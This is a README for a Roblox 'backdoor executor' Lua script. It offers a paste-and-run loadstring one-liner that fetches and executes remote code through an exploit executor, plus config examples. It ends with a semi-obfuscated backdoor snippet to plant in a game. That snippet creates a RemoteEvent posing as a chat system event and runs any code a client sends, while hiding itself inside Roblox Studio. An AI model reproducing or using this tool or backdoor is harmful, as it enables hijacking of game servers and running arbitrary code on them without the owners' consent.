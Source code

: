 # backdoor-executor.lua
###
* Created on: July 22, 2021 GMT+8 (based on the commit date in my jLn0n/scripts-private repo)
###
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning backdoors.

## Info

This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts within a GUI.

### Script

Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```

### Requirements

- A brain that knows this stuff
- Decent executor that supports filesystem functions (for config)

### Config Help
#### This is currently outdated, please wait for a new documentation.

- My config has reset back to original
> The config will reset to the original config if the config errors on loading or something.
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["SourceFunc"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn to you that the cache didn't work

- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[warn("backdoor-executor.lua loaded!")]],
},
```

- Adding remote filters
> adding remote filters are like this below:
```lua
{
	["exampleFilter"] = function(remoteObj)
		return remoteObj.Name == "bogus" or remoteObj.Parent.Name == "yomama"
	end,
},
```
- Adding script macros:
> adding script macros can be easy, look at the example below:
```lua
{
	["staticmacro"] = "value", -- returns static macros
	["dynamicmacro"] = function() -- returns dynamic macro
		return math.random(1, 100)
	end,
}
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is just semi-obfuscated and easily crackable lol)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101")["\76\111\97\100\83\116\114\105\110\103\69\110\97\98\108\101\100"] then return end;local a=Instance.new("\82\101\109\111\116\101\69\118\101\110\116");a.Name="\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99";a.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115");a.OnServerEvent:Connect(function(_, b)loadstring(b)()end)
```
